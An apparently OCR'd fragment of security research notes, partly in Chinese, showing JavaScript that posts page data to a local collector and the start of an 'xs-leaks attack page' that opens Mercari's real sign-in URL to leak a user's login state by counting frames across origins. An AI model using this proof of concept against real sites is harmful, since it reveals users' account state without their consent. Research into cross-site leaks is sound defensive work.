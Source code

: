 ```jsx

          var data = document.getElementById('data').innerHTML;
          var ajax = new XMLHttpRequest();

          ajax.open('post','<http://127.0.0.1:8888/test.json>',true)
          ajax.send(data)

          ajax.onreadystatechange = function(){
            if(ajax.readyState ==4 && ajax.status ==200){
                //本次请求成功
                document.getElementById("result").innerHTML = "sucesss" 
            }else{
                //本次请求失败
                document.getElementById("result").innerHTML = "fail" 
            }
          }
        }
       
    </script>
    
  </body>
</html>
```

- 记录三次 メルカリ界面

~~~js
<!DOCTYPE html>
<html lang="zh-Hans">
  <head>
    <meta charset="utf-8">
    <link rel="stylesheet">
    <title>xs-leaks attack page</title>
  </head>

  <style>
    .sm-item {
      display: flex;
      flex-flow: row nowrap;
      padding-left: 16px;
      font-size: 1.6rem;
    }
    .item-text{
        flex: 1 1 auto;
        margin: 11px 8px 11px 16px;
        font-family: inherit !important;
        /*超过宽度，自动换行*/
        white-space: pre-wrap;
        word-wrap: break-word;
      }
  </style>

  <body style="height: 100%;">
    <h1>XS-leaks through frame counting</h1>
    <p>This is a page to contact login page.</p>
    
    <script type="text/javascript">
      //第一次打开页面记录iframe
      var win = window.open("https://jp.mercari.com/signin?params=client_id%3DbP4zN6jIZQeutikiUFpbx307DVK1pmoW%26code_challenge%3DlCy6XEvYsmhTigeVxvqVXGPDlXxdG-JTd79sM6GQihY%26code_challenge_method%3DS256%26noBackButton%3D1%26nonce%3DXksgrzLuxz9U%26redirect_uri%3Dhttps%253A%252F%252Fjp.mercari.com%252Fauth%252Fcallback%26response_type%3Dcode%26scope%3Dmercari%2520openid%26state%3DeyJwYXRoIjoiLyIsInJhbmRvbSI6Ii1MRkVFdkhjbk9pVCJ9%26ui_locales%3Dja");
      var pattern1 = [];
~~~